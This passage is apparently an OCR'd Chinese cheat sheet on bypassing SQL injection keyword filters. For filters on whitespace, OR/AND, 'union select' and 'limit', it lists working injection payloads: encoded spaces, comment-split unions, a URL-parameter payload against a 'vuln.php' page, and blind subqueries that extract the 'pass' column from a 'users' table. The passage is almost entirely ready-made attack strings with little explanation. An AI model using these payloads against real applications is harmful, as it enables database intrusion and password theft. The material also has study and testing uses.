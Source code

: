 绕过语句：`'-'`

```
select data from users where name=''-''
select data from users where name=0-0
select data from users where 0=0

```

0x02 关键字过滤
=====

空格

过滤代码`/\s/`

```
%20, %09, %0a, %0b, %0c, %0d, %a0

```

关键字`OR，AND`

过滤代码`/\sor\s/i,/\sand\s/i`

```
'||1='1     #or
'='
'&&1='1     #and

```

关键字`union select`

过滤代码`/union\s+select/i`

```
'and(true)like(false)union(select(pass)from(users))#
'union [all|distinct] select pass from users#
'union%a0select pass from users#
'union/*!select*/pass from users#
/vuln.php?id=1 union/*&sort=*/select pass from users-- -

```

如果单独过滤union,使用盲注来获取数据

```
'and(select pass from users limit 1)='secret

```

通过子查询获取单值来进行比较

关键字`limit`

过滤代码`/limit/i`

```
'and(select pass from users where id=1)='a
'and(select pass from users group by id having id=1)='a
'and length((select pass from users having substr(pass,1,1)='a'))

```
